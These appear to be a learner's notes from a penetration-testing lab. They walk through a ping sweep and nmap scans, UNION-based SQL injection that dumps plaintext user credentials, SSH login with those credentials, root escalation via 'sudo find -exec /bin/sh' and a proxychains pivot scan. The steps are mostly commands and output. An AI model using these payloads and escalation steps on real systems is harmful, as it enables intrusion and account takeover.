 	*ON BOX:
		cat /etc/hosts
		whoami
		cat /etc/crontab
		for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
			64 bytes from 192.168.28.172: icmp_seq=1 ttl=63 time=3.40 ms
			64 bytes from 192.168.28.181: icmp_seq=1 ttl=63 time=2.29 ms
			64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.883 ms (IGNORE)
	
	nmap -v -sT -Pn -T4 -sV 192.168.28.172,181
		PORT   STATE SERVICE VERSION
		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
		
		Nmap scan report for 192.168.28.181
		Host is up (0.0016s latency).
		Not shown: 998 closed ports
		PORT   STATE SERVICE VERSION
		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
		
	run nikto/http-enum scans agains 181
		browse to page
			http://0.0.0.0:30100/pick.php?product=1 or 1=1 ; DO THIS TO ALL PAGES
				PAGE 7 IS THE VULNERABLE PAGE http://0.0.0.0:30100/pick.php?product=7 or 1=1 ;
			ENUMERATE THE SQL PAGE:
				http://0.0.0.0:30100/pick.php?product=7 UNION select 1,2,3;
				http://0.0.0.0:30100/pick.php?product=7 UNION select 1,3,2;
		GOLDEN STATEMENT: http://0.0.0.0:30100/pick.php?product=7 UNION select table_schema,column_name,table_name from information_schema.columns ;
				http://0.0.0.0:30100/pick.php?product=7 UNION select user_id,username,name from siteusers.users ;
		GIVES NEW USER INFOS:
			Lroth	anotherpassword4THEages
			Aaron	ncnffjbeqlCn$$jbeq		apasswordyPa$$word
		
		USE FOUND CREDENTIALS TO ATTEMPT TO ACCESS .172 AND .181
	ssh Aaron@0.0.0.0 -p 41000 > gives shell to .181
			sudo -l (find command allowed)
				sudo find . -exec /bin/sh \; -quit (opens a privileged shell allowing to access root directories)
				open bash shell
					for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
						64 bytes from 192.168.28.172: icmp_seq=1 ttl=64 time=0.038 ms
						64 bytes from 192.168.28.179: icmp_seq=1 ttl=128 time=3.45 ms
						64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=1.16 ms
		
		FROM LINOPS:
			proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.179
				|S-chain|-<>-127.0.0.1:9050-<><>-192.168.28.179:22-<><>-OK
				|S-chain|-<>-127.0.0.1:9050-<><>-192.168.28.179:135-<><>-OK
				|S-chain|-<>-127.0.0.1:9050-<><>-192.168.28.179:139-<><>-OK
				|S-chain|-<>-127.0.0.1:9050-<><>-192.168.28.179:445-<><>-OK
				|S-chain|-<>-127.0.0.1:9050-<><>-192.168.28.179:3389-<><>-OK
				|S-chain|-<>-127.0.0.1:9050-<><>-192.168.28.179:9999-<><>-OK
				